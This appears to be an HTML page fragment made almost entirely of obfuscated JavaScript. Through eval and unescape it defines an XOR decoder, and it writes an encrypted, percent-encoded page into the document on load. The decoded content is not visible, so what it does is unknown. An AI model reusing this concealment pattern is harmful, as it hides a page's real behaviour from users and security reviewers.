eval(unescape('%66%75%6e%63%74%69%6f%6e%20%66%61%39%65%63%66%32%63%65%66%63%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%35%38%31%33%30%34%31%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%31%37%34%35%39%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%32%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%66%61%39%65%63%66%32%63%65%66%63%28%27') + '%3a%6f%74%6a%6e%41%09%0a%3f%6d%31%27%62%62%3a%26%73%6b%77%68%61%25%25%71%73%72%6a%62%3d%21%6f%62%72%6f%6a%77%38%27%3b%26%66%75%73%71%3c%70%61%7b%71%2b%66%67%6f%6c%72%39%22%64%61%76%77%60%70%38%2d%44%4a%4b%46%22%45%45%4f%50%57%4d%27%5f%50%52%57%53%22%4f%4d%56%46%52%26%61%72%26%42%64%6a%63%75%38%37%6b%32%44%0a%05%3a%6f%37%27%6b%67%39%22%77%6c%72%6b%6e%20%27%77%73%7b%6f%61%39%25%68%67%71%60%6f%75%3e%27%32%23%65%71%77%76%39%73%6e%7e%73%2d%66%6e%6a%6f%76%3d%25%61%62%79%72%62%76%38%24%41%40%5d%50%53%26%2a%2b%42%74%20%5e%71%76%72%24%50%7e%74%27%5d%63%70%65%66%74%64%6c%36%23%5c%75%72%7d%26%74%7b%75%22%67%61%63%6a%72%6f%74%79%2a%27%61%60%76%6a%77%76%23%64%74%63%2b%70%62%77%77%71%71%73%6d%65%6c%6a%6e%7f%7f%35%20%43%6b%62%69%77%71%61%26%6f%6a%74%63%77%26%22%57%7f%6d%77%71%63%71%48%26%4e%2d%43%5b%50%52%24%6e%76%26%75%6a%26%7e%61%75%22%62%62%65%22%25%3a%34%63%31%45%0d%09%22%23%09%0a%23%25%3a%63%62%7c%27%77%73%7b%6f%61%39%25%71%63%7f%7f%2b%66%6c%6e%69%71%3a%24%64%60%74%73%6e%70%38%26%45%56%76%69%65%77%64%74%6c%60%67%77%20%75%69%23%50%6d%73%25%69%66%63%6f%73%20%61%77%77%65%68%23%28%2b%45%49%26%3b%61%27%6a%75%61%6e%3e%23%6e%73%7f%76%70%3e%34%31%7b%71%69%6e%37%67%77%7b%35%63%65%73%67%64%70%37%75%60%77%72%6e%71%73%3e%71%44%70%7e%5e%57%30%49%30%4e%62%6a%73%4f%64%7b%3d%4f%39%43%67%6a%65%54%41%4c%57%4e%48%7e%7d%56%32%63%21%49%55%77%65%75%22%78%6d%70%6b%25%7e%72%66%6b%3b%33%66%40%3f%37%60%6a%7f%44%0a%05%26%27%0d%09%22%23%38%60%6a%7f%26%60%67%67%70%77%3a%24%6f%77%65%67%60%70%21%2b%71%73%79%6b%67%3e%22%69%62%73%6d%6e%79%38%27%30%27%63%76%70%77%3c%23%44%3b%38%62%6e%7a%45%0f%0d%09%0a%3f%71%67%61%67%63%27%67%6b%63%74%73%39%25%62%63%75%7f%63%71%26%45%0f%0d%24%24%3f%71%70%45%06%08%27%20%27%22%3f%70%60%41%39%76%27%62%62%3a%26%75%67%78%50%77%6c%60%74%70%2d%44%3b%33%77%40%3f%37%70%67%47%0b%09%2b%26%3b%33%73%74%41%09%0a%23%25%3a%70%6c%70%6e%70%73%40%0e%0a%24%23%7f%67%71%2b%41%4f%45%40%4d%46%40%67%4f%4c%51%53%2b%3b%27%5f%5a%3d%0e%0a%70%70%61%67%7e%2b%3b%27%72%62%79%23%40%65%77%60%2e%2e%34%26%73%73%63%63%7a%36%73%66%71%4e%74%7e%70%70%28%37%2b%3c%24%70%70%61%67%7e%39%71%62%74%4a%6b%71%71%70%66%72%2e%37%22%39%27%74%74%66%62%7d%36%74%60%72%50%6e%61%74%72%63%75%2b%34%2d%3c%08%08%6d%7e%74%60%74%6e%71%71%24%6c%77%71%76%4c%6e%72%2f%74%6f%67%56%72%68%2a%08%08%78%06%08%27%20%27%22%79%65%72%23%7d%6b%6b%43%72%73%70%27%3f%23%76%61%78%25%5e%4a%47%4e%73%74%77%54%66%75%71%66%72%72%2f%22%39%0a%0e%27%22%23%24%7c%6e%69%4e%73%7f%76%35%73%77%67%71%2c%24%25%4e%43%53%2d%2a%27%74%6f%67%56%72%68%2f%25%6c%66%67%71%62%20%2e%3d%23%37%37%23%6f%67%6b%7c%63%27%6a%74%74%23%73%7d%71%62%6e%71%78%74%74%75%70%22%75%61%75%76%60%71%73%06%08%27%20%27%22%7b%69%68%4b%71%72%77%39%71%62%72%63%2a%23%76%71%6f%69%26%2e%34%0b%09%20%27%22%23%72%61%77%70%70%75%2b%7e%6a%6c%4f%76%77%74%36%75%60%71%77%78%74%70%65%53%67%7b%70%3b%0e%0b%7b%0a%05%0b%09%6a%72%70%64%70%6d%70%77%26%6c%6e%72%40%75%71%74%66%76%63%7a%42%75%63%6e%2e%62%29%0a%0c%7c%09%0a%23%25%26%27%62%6c%27%28%62%2b%23%7b%09%0d%25%26%27%2b%26%27%20%27%6b%69%24%2c%37%35%26%3a%36%26%62%32%6b%67%71%6f%70%6b%25%2c%2d%2b%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%7f%6b%6c%6a%62%23%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%62%2b%3b%27%65%35%75%76%62%73%77%73%6f%75%60%2e%37%2c%27%67%31%68%61%71%6e%72%6f%2b%2b%27%36%2e%3d%23%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%79%23%25%26%0a%05%26%27%20%27%22%23%24%24%23%25%26%27%7d%63%73%75%71%70%23%6c%61%7b%33%67%2f%6e%2f%38%0d%09%22%23%24%24%23%25%26%27%76%0b%09%20%27%22%23%24%24%23%25%70%62%7f%73%71%72%27%67%0e%0a%24%23%25%26%7a%06%08%27%20%27%22%75%61%70%76%73%74%27%2d%20%0a%0e%7a%0f%0d%09%0a%69%70%74%60%7f%6f%74%72%27%6a%66%7c%32%62%2d%6e%62%73%7e%2e%20%78%0f%0d%24%24%23%25%7c%66%7d%26%6f%65%7f%22%3e%24%6c%66%7d%7e%35%7f%75%50%74%71%6b%71%6f%2c%2a%3a%35%34%61%75%71%67%62%22%64%77%76%79%60%70%70%62%75%75%0d%09%22%23%24%24%79%64%70%27%7c%72%71%20%3a%22%28%2f%3b%0e%0b%26%27%2b%26%6d%73%71%22%2b%7e%65%75%25%6f%27%36%26%37%3f%27%6b%23%38%24%6b%60%7e%35%67%63%75%6b%73%6a%3c%24%6d%23%2a%3b%27%3d%2f%0a%0e%27%22%23%24%24%23%25%26%70%7f%70%27%2f%3a%22%54%70%72%6a%77%6d%35%61%70%74%6d%40%6a%62%72%43%70%61%63%2f%7b%67%71%77%62%4b%71%70%2c%6b%60%7e%35%7c%73%61%77%73%74%2b%6d%28%23%33%2f%2b%2b%37%3d%29%2e%3d%0e%0a%24%23%25%26%71%6e%72%72%76%75%22%74%70%72%3c%08%08%7a%06%08%0a%0e%6d%77%71%63%70%6a%76%74%27%60%63%73%52%62%79%57%77%6b%66%77%71%2f%22%26%78%0d%09%22%23%63%77%71%72%75%6b%6e%34%6b%73%6c%2a%25%53%50%42%53%52%21%22%39%0a%0e%0a%0c%23%24%53%77%73%6f%75%60%34%77%76%74%76%70%70%7d%73%60%34%6e%79%4a%6e%77%73%3f%69%71%76%64%71%6f%74%79%2e%6b%69%70%76%2a%7b%09%0d%25%26%27%2b%70%62%74%72%74%71%24%2c%6f%6c%71%73%39%6f%75%64%62%7a%50%6e%2c%77%6d%6f%70%39%72%74%57%73%74%6a%76%6f%2b%2c%2f%27%2a%3b%27%2d%36%2b%0e%0a%24%23%78%0b%09%06%08%27%20%73%71%6c%61%76%74%25%3b%27%45%51%54%52%35%72%62%72%73%66%2d%6e%73%7f%76%4c%65%73%2a%25%6c%70%77%75%71%39%38%35%66%70%6e%30%7b%72%74%6f%61%67%73%6a%34%60%73%6a%31%62%74%6d%30%7f%37%34%7f%75%68%65%75%75%25%2d%2d%3c%08%08%27%2b%7c%66%76%27%76%70%70%65%6f%25%3b%27%3b%39%0a%0e%27%22%79%65%72%23%64%6a%6b%47%6f%75%6f%27%3f%23%2f%2f%3c%08%08%27%2b%7c%66%76%27%70%66%7f%50%70%6a%63%75%7c%26%3a%20%2c%29%3c%09%0a%23%25%6c%74%7d%2e%7d%61%71%22%77%77%6b%66%77%26%6e%79%26%73%73%68%67%71%73%36%6a%72%71%72%6e%70%70%29%27%7d%0e%0a%24%23%25%26%27%2b%7c%66%76%27%65%76%72%72%66%77%61%7e%4c%75%63%65%27%3f%23%6f%61%77%42%73%71%7d%63%75%67%7e%45%70%60%61%2b%71%75%68%6e%74%70%32%6e%75%74%71%61%75%72%59%73%78%69%62%72%5a%30%77%77%6b%66%77%71%58%3b%5b%35%67%72%74%75%61%76%64%7c%2f%38%06%08%27%20%27%22%23%24%7e%62%73%26%60%7d%63%66%74%62%66%47%65%70%66%25%3b%27%79%63%7c%20%43%63%77%61%2c%47%64%72%62%39%76%66%76%70%67%2b%70%77%6c%60%74%70%39%6f%70%77%72%67%75%73%5b%77%76%69%62%79%5b%35%74%74%6d%66%76%73%5c%35%5b%35%6c%70%62%61%73%67%67%36%60%62%71%63%2e%22%39%0a%0e%27%22%23%24%24%23%6c%6c%2f%6c%70%62%61%73%67%67%40%65%77%60%26%45%2b%72%74%64%66%7b%23%2e%2e%23%42%4e%42%4c%49%42%44%64%4e%4a%53%50%31%6c%74%63%6e%7e%54%6a%2f%65%76%72%72%66%77%61%7e%4c%75%63%65%2e%22%3e%39%24%2e%34%2f%27%74%0b%09%20%27%22%23%24%24%23%25%26%27%7f%75%73%61%6b%2d%2c%09%0a%23%25%26%27%2b%26%27%20%27%22%79%65%72%23%64%6b%74%7e%74%73%20%3a%22%77%77%6b%66%77%71%35%62%71%70%75%62%74%74%5b%70%70%6a%63%75%56%34%73%73%68%67%71%73%5b%33%58%34%66%66%75%72%72%73%3d%0e%0a%24%23%25%26%27%2b%26%27%20%27%78%62%72%24%76%73%6a%27%36%26%2c%68%73%76%73%73%3a%30%36%7e%72%66%6b%35%67%74%6f%6e%71%76%6a%71%7f%34%48%6f%70%77%72%67%75%39%2f%2c%25%72%74%64%63%75%20%28%22%25%2e%63%76%73%70%62%79%61%7e%3d%21%22%2c%24%63%76%73%70%62%79%61%7e%47%74%66%66%24%2b%23%2e%2c%6b%62%6b%6e%74%3a%29%23%2b%24%62%68%75%72%79%72%38%0d%09%22%23%24%24%23%25%26%27%2b%26%0a%0e%27%22%23%24%24%23%25%26%27%2b%7c%66%76%27%6d%7a%63%24%3e%25%72%74%64%63%75%77%35%6b%74%73%71%66%73%71%58%7f%75%68%65%75%5f%31%60%65%77%64%34%68%72%61%27%43%27%29%5a%41%53%28%25%38%27%20%54%54%2b%0a%0c%23%24%24%23%25%26%27%2b%26%27%61%6b%6e%4f%6d%76%6c%25%3b%27%6a%6a%6b%4c%6e%70%6c%24%2b%23%2e%65%64%68%65%64%63%64%61%60%67%67%60%66%65%64%68%65%64%44%5e%51%55%24%24%23%25%26%27%20%26%27%2f%27%22%77%77%70%62%69%26%28%2b%2d%3b%66%71%40%28%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%29%27%20%41%72%76%71%67%71%63%7d%3d%25%22%2c%2b%29%27%67%72%74%75%61%76%64%7c%41%74%6f%63%27%2f%27%29%3f%62%72%41%2e%26%28%2b%2d%48%59%40%3c%23%2f%24%2c%25%69%7e%6c%26%28%20%2c%3e%65%72%46%28%08%08%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%29%27%2b%40%74%66%65%70%66%61%26%63%6a%72%62%3e%27%29%23%2b%24%64%73%63%66%7f%63%63%44%66%76%66%24%2b%23%2e%26%7b%2b%2d%27%2f%27%29%57%77%70%62%69%26%73%7d%73%70%74%6b%6b%71%61%3a%23%2e%26%28%2b%72%74%6f%62%70%74%36%6d%74%72%73%62%7d%71%58%74%74%6d%66%76%59%31%71%75%68%6e%74%70%5f%37%5f%31%70%72%76%72%72%6b%62%74%62%77%27%2d%23%2f%38%65%73%44%2c%06%08%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%28%22%28%48%4d%51%4a%38%27%20%26%28%20%72%74%6f%36%68%6a%77%69%2f%7e%70%6b%29%27%2d%23%2f%38%65%73%44%2c%34%0b%09%20%27%22%23%24%24%7e%08%08%27%2b%7b%0a%0e%27%22%23%60%77%64%70%6b%62%79%72%35%6b%62%76%46%68%61%6e%60%74%73%4d%7f%4e%64%2f%24%71%61%7f%57%76%69%62%79%71%21%29%35%6b%71%76%61%75%4d%52%4a%47%26%3a%20%66%6e%6f%48%6d%71%6a%39%0a%05%26%27%67%74%70%74%77%68%66%37%6a%74%60%2e%2c%45%55%46%28%2d%3b%0e%0b%7b%0a%05%6d%62%74%55%67%78%50%77%6c%60%74%70%23%2f%38%0d%09%75%66%70%4d%71%71%63%71%71%67%6b%28%6c%67%77%56%61%78%51%75%68%6e%74%70%2c%27%36%36%34%34%33%2c%39%0a%05%3a%34%77%60%74%6a%74%70%4125813041%34%35%32%35%30%31%36' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>

